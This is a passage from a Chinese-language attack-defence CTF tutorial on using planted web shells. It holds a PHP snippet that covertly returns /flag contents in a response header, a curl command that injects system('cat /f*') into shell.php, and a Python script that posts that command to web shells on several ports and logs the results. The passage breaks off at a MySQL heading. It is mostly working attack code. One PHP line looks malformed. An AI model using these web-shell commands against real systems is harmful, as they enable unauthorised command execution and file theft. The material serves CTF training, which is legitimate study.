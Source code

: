 隐藏的文件读取

```php
<?php
header(php'flag:'.file_get_contents('/flag'));
```

条件允许的话，将 flag 信息直接读取并返回到 header 头中，这样做不易被发现

#### 3.2.5 利用 WebShell

curl(跟 hackbar 差不多)

```c
C:\Users\admin>curl "http://192.168.182.130:8801/include/shell.php" -d "admin_ccmd=system('cat /f*');"
//向 shell.php 文件里传入参数并返回结果
```

Python 多端口传参

```python
#coding=utf-8
import requests

url_head="http://192.168.182.130"   #网段
url=""
shell_addr="/upload/url/shell.php" #木马路径
passwd="pass"                   #木马密码
#port="80"
payload = {passwd: 'System(\'cat /flag\');'}
# find / -name "flag*"

#清空上次记录
flag=open("flag.txt","w")
flag.close()
flag=open("flag.txt","a")

for i in range(8000,8004):
    url=url_head+":"+str(i)+shell_addr
    try:
        res=requests.post(url,payload)#,timeout=1
        if res.status_code == requests.codes.ok:
            result = res.text
            print (result)
            flag.write(result+"\n") 
        else:
            print ("shell 404")
    except:
        print (url+" connect shell fail")

flag.close()
```

#### 3.2.6 MySQL 数据库利用
